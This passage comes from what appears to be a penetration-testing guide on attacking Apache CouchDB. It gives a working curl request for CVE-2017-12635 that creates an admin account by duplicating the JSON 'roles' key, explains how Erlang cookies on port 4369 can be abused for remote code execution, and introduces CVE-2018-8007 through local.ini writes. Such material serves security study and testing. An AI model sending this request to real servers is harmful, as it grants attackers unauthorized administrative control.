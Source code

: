 ## CouchDB Privilege Escalation [CVE-2017-12635](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-12635)

Thanks to the differences between Erlang and JavaScript JSON parsers you could **create an admin user** with credentials `hacktricks:hacktricks` with the following request:

```bash
curl -X PUT -d '{"type":"user","name":"hacktricks","roles":["_admin"],"roles":[],"password":"hacktricks"}' localhost:5984/_users/org.couchdb.user:hacktricks -H "Content-Type:application/json"
```

[**More information about this vuln here**](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html).

## CouchDB RCE

### **Erlang Cookie Security Overview**

Example [from here](https://0xdf.gitlab.io/2018/09/15/htb-canape.html).

In the CouchDB documentation, specifically in the section concerning cluster set-up ([link](http://docs.couchdb.org/en/stable/cluster/setup.html#cluster-setup)), the use of ports by CouchDB in a cluster mode is discussed. It's mentioned that, as in standalone mode, port `5984` is used. Additionally, port `5986` is for node-local APIs, and importantly, Erlang requires TCP port `4369` for the Erlang Port Mapper Daemon (EPMD), facilitating node communication within an Erlang cluster. This setup forms a network where each node is interlinked with every other node.

A crucial security advisory is highlighted regarding port `4369`. If this port is made accessible over the Internet or any untrusted network, the system's security heavily relies on a unique identifier known as the "cookie." This cookie acts as a safeguard. For instance, in a given process list, the cookie named "monster" might be observed, indicating its operational role in the system's security framework.

```
www-data@canape:/$ ps aux | grep couchdb
root        744  0.0  0.0   4240   640 ?        Ss   Sep13   0:00 runsv couchdb
root        811  0.0  0.0   4384   800 ?        S    Sep13   0:00 svlogd -tt /var/log/couchdb
homer       815  0.4  3.4 649348 34524 ?        Sl   Sep13   5:33 /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/b
```

For those interested in understanding how this "cookie" can be exploited for Remote Code Execution (RCE) within the context of Erlang systems, a dedicated section is available for further reading. It details the methodologies for leveraging Erlang cookies in unauthorized manners to achieve control over systems. You can [**explore the detailed guide on abusing Erlang cookies for RCE here**](4369-pentesting-erlang-port-mapper-daemon-epmd.md#erlang-cookie-rce).

### **Exploiting CVE-2018-8007 through Modification of local.ini**

Example [from here](https://0xdf.gitlab.io/2018/09/15/htb-canape.html).

A recently disclosed vulnerability, CVE-2018-8007, affecting Apache CouchDB was explored, revealing that exploitation requires write permissions to the `local.ini` file. Although not directly applicable to the initial target system due to security restrictions, modifications were made to grant write access to the `local.ini` file for exploration purposes. Detailed steps and code examples are provided below, demonstrating the process.
